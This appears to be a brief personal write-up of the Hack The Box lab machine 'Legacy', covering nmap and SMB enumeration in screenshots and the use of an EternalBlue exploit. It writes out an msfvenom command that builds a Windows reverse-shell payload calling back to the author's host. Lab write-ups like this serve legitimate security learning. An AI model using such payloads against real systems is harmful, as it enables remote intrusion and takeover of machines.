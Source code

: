 # Legacy - 10.10.10.4

Created: May 8, 2021 10:13 AM

nmap:

![Untitled](Legacy%20-%2010%2010%2010%204%20818dcdbccd0142a59817fb50af4b1b59/Untitled.png)

we get NT_STATUS_IO_TIMEOUT error for some reason. maybe adding support for wide range of SMB protocols might help:

![Untitled](Legacy%20-%2010%2010%2010%204%20818dcdbccd0142a59817fb50af4b1b59/Untitled%201.png)

sudo vim /etc/samba/smb.conf:

![Untitled](Legacy%20-%2010%2010%2010%204%20818dcdbccd0142a59817fb50af4b1b59/Untitled%202.png)

nmap on SMB:

![Untitled](Legacy%20-%2010%2010%2010%204%20818dcdbccd0142a59817fb50af4b1b59/Untitled%203.png)

next: 

![Untitled](Legacy%20-%2010%2010%2010%204%20818dcdbccd0142a59817fb50af4b1b59/Untitled%204.png)

downloaded the eternalblue python code.

changing the shellcode in the exploit  to my own:

msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=4443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

![Untitled](Legacy%20-%2010%2010%2010%204%20818dcdbccd0142a59817fb50af4b1b59/Untitled%205.png)